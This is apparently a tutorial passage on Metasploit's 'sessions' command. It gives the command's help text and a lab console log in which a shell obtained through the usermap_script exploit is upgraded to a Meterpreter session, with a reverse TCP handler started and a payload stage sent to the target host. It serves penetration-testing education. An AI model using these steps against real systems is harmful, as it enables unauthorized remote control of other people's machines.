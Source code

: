 * **sessions** - interact with sessions

``` plain
msf > sessions -h
Usage: sessions [options]

Active session manipulation and interaction.

OPTIONS:

    -K        Terminate all sessions
    -c <opt>  Run a command on the session given with -i, or all
    -h        Help banner
    -i <opt>  Interact with the supplied session ID
    -k <opt>  Terminate sessions by session ID and/or range
    -l        List all active sessions
    -q        Quiet mode
    -r        Reset the ring buffer for the session given with -i, or all
    -s <opt>  Run a script on the session given with -i, or all
    -t <opt>  Set a response timeout (default: 15)
    -u <opt>  Upgrade a shell to a meterpreter session on many platforms
    -v        List verbose fields


Many options allow specifying session ranges using commas and dashes.
For example:  sessions -s checkvm -i 1,3-5  or  sessions -k 1-2,5,6
```

In the following example I am upgrading the shell of a session to Meterpreter:

``` plain
msf exploit(usermap_script) > sessions

Active sessions
===============

  Id  Type        Information  Connection
  --  ----        -----------  ----------
  1   shell unix               192.168.80.155:34501 -> 192.168.80.156:4444 (192.168.80.156)

msf exploit(usermap_script) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.80.155:4433 
[*] Starting the payload handler...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 192.168.80.156
[*] Command stager progress: 100.00% (668/668 bytes)
msf exploit(usermap_script) > [*] Meterpreter session 2 opened (192.168.80.155:4433 -> 192.168.80.156:58435) at 2016-06-02 13:53:36 -0400
```
